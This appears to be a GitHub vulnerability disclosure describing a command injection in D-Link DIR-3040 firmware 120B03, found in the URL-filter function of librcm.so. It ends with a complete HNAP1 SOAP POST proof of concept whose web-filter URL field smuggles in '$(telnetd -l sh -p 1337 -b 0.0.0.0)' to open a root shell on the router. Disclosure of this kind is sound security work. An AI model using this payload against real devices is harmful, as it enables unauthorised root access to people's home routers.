




# D-link DIR3040_A1_FW120B03.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：https://tsd.dlink.com.tw/


A problem was found on the D-Link DIR-3040 device with firmware 120B03. This problem is a command injection that allows remote attackers to execute arbitrary code and obtain a root shell. Command injection vulnerabilities allow attackers to execute arbitrary operating system commands via a crafted/HNAP1 POST request.The target function tw_ add_ url_ filter_ iptables_ rule() in the target file librcm.so,It can be found that there is command injection


## Vulnerability details

DIR-3040 libcrm.so  Keyword  tw_add_url_filter_iptables_rule().



The target function tw_ add_ url_ filter_ iptables_ rule() in the target file librcm.so,It can be found that there is command injection.

Follow up nearly anonymous function FUN_ 00033750()。



View the main code segment generated by the vulnerability in lines 162 to 201.





Pre process the url entered by the user, extract the domain name, and then execute the system function to implement site filtering. Carefully analyze this part. One of the parameters executed by the system function is the constant 1, and the other is the variable acStack544. Only this variable can be injected. Go back to line 164 to initialize acStack544 and set it to zero. A lot of operations have been done later, most of which are constant strings, The variables that appear are only 183 lines of local_268 and 188 lines of local_264. These two variables are the domain names obtained from the preprocessing mentioned above. The url processing is mainly based on/? And other special characters.

## POC

1. Attack with the following POC attacks

```xml
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://192.168.0.1:7018
Connection: close
Referer: http://192.168.0.1:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetWebFilterSettings>
	<WebFilterMethod>DENY</WebFilterMethod>
	<NumberOfEntry>1</NumberOfEntry>
	<WebFilterURLs>
		<string>www.baidu.com$(telnetd -l sh -p 1337 -b 0.0.0.0)</string>
	</WebFilterURLs>
</SetWebFilterSettings>
</soap:Body>
</soap:Envelope>
```

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

